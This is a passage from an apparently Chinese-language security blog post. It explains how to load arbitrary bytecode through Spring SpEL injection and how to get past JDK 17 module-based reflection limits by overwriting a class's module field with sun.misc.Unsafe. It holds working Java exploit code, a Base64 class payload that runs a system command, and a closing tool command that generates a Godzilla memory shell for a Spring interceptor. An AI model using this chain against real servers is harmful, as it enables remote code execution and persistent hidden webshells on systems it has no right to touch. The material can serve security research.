

因为 `ReflectUtils` 是用 `Class.forName()` 触发的，我们又直接注入到 `Thread.currentThread().getContextClassLoader()` 中，所以用 `loadClass()` 再次加载



### 补充

在打过一次后再次调试 `ReflectUtils#defineClass()` 方法会发现 loader 委派给了容器运行的 `org.springframework.boot.web.embedded.tomcat.TomcatEmbeddedWebappClassLoader` 导致 `contextClass.getClassLoader() == loader` 为 flase 进不去第一个逻辑



不过下文针对这种情况仍然允许 `MethodHandles.Lookup` 调用，所以实际要满足的条件是 `contextClass != null && contextClass.getClassLoader() != loader` 



## 0x03 Unsafe 绕过 JDK 17 反射限制 (named module)

到这里我们已经可以通过 SPEL 加载字节码，但还差一点，我们仍然被 named module 给限制住，没办法打内存马。在之前的版本中默认告警，JDK 17 之后[强制开启](https://docs.oracle.com/en/java/javase/17/migrate/migrating-jdk-8-later-jdk-releases.html#GUID-7BB28E4D-99B3-4078-BDC4-FC24180CE82B)

```java
Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
defineClass.setAccessible(true);
byte[] bytecode = Base64.getDecoder().decode("yv66vgAAADQALwoACgAXCQAYABkIABoKABsAHAoAHQAeCAAfCgAdACAHACEHACIHACMBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAJUxvcmcvc3ByaW5nZnJhbWV3b3JrL2V4cHJlc3Npb24vVGVzdDsBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACEBAApTb3VyY2VGaWxlAQAJVGVzdC5qYXZhDAALAAwHACQMACUAJgEAC3N0YXRpYyBFeGVjBwAnDAAoACkHACoMACsALAEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMAC0ALgEAE2phdmEvbGFuZy9FeGNlcHRpb24BACNvcmcvc3ByaW5nZnJhbWV3b3JrL2V4cHJlc3Npb24vVGVzdAEAEGphdmEvbGFuZy9PYmplY3QBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9QcmludFN0cmVhbQEAB3ByaW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEACQAKAAAAAAACAAEACwAMAAEADQAAAC8AAQABAAAABSq3AAGxAAAAAgAOAAAABgABAAAABgAPAAAADAABAAAABQAQABEAAAAIABIADAABAA0AAABbAAIAAQAAABayAAISA7YABLgABRIGtgAHV6cABEuxAAEAAAARABQACAADAA4AAAAWAAUAAAAJAAgACgARAAwAFAALABUADQAPAAAAAgAAABMAAAAHAAJUBwAUAAABABUAAAACABY=");
Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), bytecode, 0, bytecode.length);
clazz.newInstance();
```

我们在执行 `defineClass.setAccessible(true);` 时仍然会被限制



顺着前面的思路可以用 `MethodHandles.Lookup` 来加载，不过有个包名一致的问题，其实也有一个 `newInstanceNoCheck()` 的利用

```java
        Method privateLookupInMethod = MethodHandles.class.getMethod("privateLookupIn", Class.class, MethodHandles.Lookup.class);
        Method lookupDefineClassMethod = MethodHandles.Lookup.class.getMethod("defineClass", byte[].class);
        byte[] bytecode = Base64.getDecoder().decode("yv66vgAAADQALwoACgAXCQAYABkIABoKABsAHAoAHQAeCAAfCgAdACAHACEHACIHACMBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAJUxvcmcvc3ByaW5nZnJhbWV3b3JrL2V4cHJlc3Npb24vVGVzdDsBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACEBAApTb3VyY2VGaWxlAQAJVGVzdC5qYXZhDAALAAwHACQMACUAJgEAC3N0YXRpYyBFeGVjBwAnDAAoACkHACoMACsALAEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMAC0ALgEAE2phdmEvbGFuZy9FeGNlcHRpb24BACNvcmcvc3ByaW5nZnJhbWV3b3JrL2V4cHJlc3Npb24vVGVzdAEAEGphdmEvbGFuZy9PYmplY3QBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9QcmludFN0cmVhbQEAB3ByaW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEACQAKAAAAAAACAAEACwAMAAEADQAAAC8AAQABAAAABSq3AAGxAAAAAgAOAAAABgABAAAABgAPAAAADAABAAAABQAQABEAAAAIABIADAABAA0AAABbAAIAAQAAABayAAISA7YABLgABRIGtgAHV6cABEuxAAEAAAARABQACAADAA4AAAAWAAUAAAAJAAgACgARAAwAFAALABUADQAPAAAAAgAAABMAAAAHAAJUBwAUAAABABUAAAACABY=");
        MethodHandles.Lookup lookup = (MethodHandles.Lookup) privateLookupInMethod.invoke(null, Class.forName("org.springframework.expression.ExpressionParser"), MethodHandles.lookup());
        Class<?> c = (Class<?>) lookupDefineClassMethod.invoke(lookup, bytecode);
        c.getDeclaredConstructor().newInstance();
```

这里介绍另一种更加简单的用法，利用 Unsafe，在 [GodzillaMemoryShellProject](https://github.com/BeichenDream/GodzillaMemoryShellProject/blob/main/TomcatMemoryShell/src/AesBase64TomcatListenerShell.java) 这个项目中也用到了 Unsafe 来操作字段，顺着这次研究也有了新的思路。跟进 `java.lang.reflect.Method#setAccessible()` 方法，最终定位到 `java.lang.reflect.AccessibleObject#checkCanSetAccessible()` 判断了 `Module` 是否一致。



那么我们可以直接利用 `sun.misc.Unsafe#getAndSetObject()` 修改当前类的 Module 与 `java.*` 一样来绕过。

`getAndSetObject()` 原子地交换了指定偏移量 `offset` 处字段的当前值与新值，然后返回之前的值。这意味着它首先获取字段的当前值，然后将新值设置到字段中，并返回之前的值。因此，这个方法不仅设置了新值，还返回了之前的值。与之相对的`putObject()` 就没返回值





Demo 如下

```java
Class unsafeClass = Class.forName("sun.misc.Unsafe");
Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
unsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe) unsafeField.get(null);

Module module = Object.class.getModule();
Class cls = UnsafeDemo.class;
long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));

unsafe.getAndSetObject(cls, offset, module);

Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
defineClass.setAccessible(true);
byte[] bytecode = Base64.getDecoder().decode("yv66vgAAADQALwoACgAXCQAYABkIABoKABsAHAoAHQAeCAAfCgAdACAHACEHACIHACMBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAJUxvcmcvc3ByaW5nZnJhbWV3b3JrL2V4cHJlc3Npb24vVGVzdDsBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACEBAApTb3VyY2VGaWxlAQAJVGVzdC5qYXZhDAALAAwHACQMACUAJgEAC3N0YXRpYyBFeGVjBwAnDAAoACkHACoMACsALAEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMAC0ALgEAE2phdmEvbGFuZy9FeGNlcHRpb24BACNvcmcvc3ByaW5nZnJhbWV3b3JrL2V4cHJlc3Npb24vVGVzdAEAEGphdmEvbGFuZy9PYmplY3QBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9QcmludFN0cmVhbQEAB3ByaW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEACQAKAAAAAAACAAEACwAMAAEADQAAAC8AAQABAAAABSq3AAGxAAAAAgAOAAAABgABAAAABgAPAAAADAABAAAABQAQABEAAAAIABIADAABAA0AAABbAAIAAQAAABayAAISA7YABLgABRIGtgAHV6cABEuxAAEAAAARABQACAADAA4AAAAWAAUAAAAJAAgACgARAAwAFAALABUADQAPAAAAAgAAABMAAAAHAAJUBwAUAAABABUAAAACABY=");
Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), bytecode, 0, bytecode.length);
clazz.newInstance();
```

pwn

```
-e JavaClass -jht MemShell -mw Spring -ms Interceptor -msf Godzilla -je SPEL,FreeMarker -jme JDK17 -mt raw
```


